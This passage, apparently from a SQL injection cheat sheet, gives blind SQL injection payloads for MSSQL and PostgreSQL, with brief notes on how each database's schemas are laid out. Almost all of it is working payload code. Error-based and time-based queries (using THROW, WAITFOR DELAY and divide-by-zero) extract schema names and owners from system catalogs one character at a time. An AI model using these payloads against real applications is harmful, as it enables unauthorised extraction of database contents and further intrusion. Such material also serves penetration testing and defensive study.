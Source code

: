 <aside>
💡 MSSQL works a little differently, you have to enumerate schema names and the owners of those respective schemas.

</aside>

### MSSQL (error based) (schema name)

```sql
IF ((SELECT SUBSTRING((SELECT schema_name FROM (SELECT * FROM (SELECT ROW_NUMBER() OVER (ORDER BY schema_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS SubqueryAlias WHERE RN = 1) AS thing),1,1)))='A' BEGIN THROW 500001, 'THING', 1; END 
```

### MSSQL (time based) (schema name)

```sql
IF ((SELECT SUBSTRING((SELECT schema_name FROM (SELECT * FROM (SELECT ROW_NUMBER() OVER (ORDER BY schema_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS SubqueryAlias WHERE RN = 1) AS thing),1,1)))='A' WAITFOR DELAY '0:0:02'
```

### MSSQL (error based) (schema owner)

```sql
IF ((SELECT SUBSTRING((SELECT owner_name FROM (SELECT * FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS SubqueryAlias WHERE RN = 1) AS thing),1,1)))='d' BEGIN THROW 500001, 'THING', 1; END
```

### MSSQL (time based) (schema owner)

```sql
IF ((SELECT SUBSTRING((SELECT owner_name FROM (SELECT * FROM (SELECT ROW_NUMBER() OVER (ORDER BY owner_name) AS RN, schema_name, owner_name FROM (SELECT name AS schema_name, USER_NAME(principal_id) AS owner_name FROM sys.schemas) AS thing) AS SubqueryAlias WHERE RN = 1) AS thing),1,1)))='d' WAITFOR DELAY '0:0:02'
```

<aside>
💡 PostgreSQL works similar to MSSQL where you have to enumerate the schema name, schema owner, and then use the results to determine what you’re able to access.

</aside>

### PostgreSQL (error based) (schema name)

```sql
SELECT CASE WHEN (SELECT SUBSTR((SELECT table_schema FROM (SELECT ROW_NUMBER() OVER (ORDER BY table_schema) AS RN, table_schema FROM  (SELECT DISTINCT(table_schema) AS table_schema FROM information_schema.tables) AS thing) AS thing WHERE RN = 1),1,1))='I' THEN 1/(SELECT 0) ELSE NULL END
```
